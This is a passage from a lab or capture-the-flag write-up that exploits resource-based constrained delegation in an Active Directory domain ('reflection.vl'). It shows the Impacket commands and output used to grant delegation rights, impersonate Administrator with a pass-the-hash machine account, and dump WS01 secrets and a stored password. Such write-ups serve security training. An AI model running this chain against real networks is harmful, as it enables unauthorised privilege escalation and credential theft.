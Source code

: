 # Exploiting Resource-Based Constrained Delegation

We can now use the `GenericAll` permissions as `Georgia.Price` to exploit the `WS01` workstation.

I tested for LAPS once again to see if we could read the corresponding LAPS password, however I did not come back with any results. This is because unlike `MS01`, `WS01` does not have LAPS configured to run.

Despite this, we do have another exploit that we can test - RBCD. Resource-based constrained delegation essentially allows us to utilize a compromised machine account to request for a service ticket in which we impersonate the user that it belongs to. The reason that this did not work before is that we did not have control over a machine account that could do this. However, now that we do have one being `MS01$`, we can exploit this functionality.

We'll first need to set the delegation properties between `MS01$` and `WS01$` respectively so that `MS01` can perform delegation on behalf of users in `WS01`. Impacket has a utility to do this.

```
└─$ impacket-rbcd -delegate-from 'MS01$' -delegate-to 'WS01$' -action 'write' 'reflection.vl/georgia.price:[...snip...]'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] MS01$ can now impersonate users on WS01$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     MS01$        (S-1-5-21-3375389138-1770791787-1490854311-1104)
```

Now that we have that set, we can now exploit S4U2Proxy to request for a service ticket to CIFS (being SMB) as the Administrator user.

The only stipulate here is that we'll need the plaintext password of the `MS01$` machine account to do this. We did dump all the credentials to the `MS01` machine earlier from Mimikatz, so we can use the machine account's NTLM hash and pass-the-hash to Impacket command we're about to run.

```
└─$ impacket-getST -spn 'cifs/ws01.reflection.vl' -impersonate 'Administrator' 'reflection.vl/MS01$' -hashes :548f3a[...snip...]0eaadb1
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_ws01.reflection.vl@REFLECTION.VL.ccache
```

Now that we have a saved Kerberos service ticket as the Administrator user, we can now dump the secrets of `WS01` remotely with `secretsdump`.

```
└─$ impacket-secretsdump -k ws01.reflection.vl                                  
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
......
REFLECTION\WS01$:aad3b435b51404eeaad3b435b51404ee:755b20085[...snip...]4c9e:::
[*] DefaultPassword 
reflection.vl\Rhys.Garner:[...snip...]
```
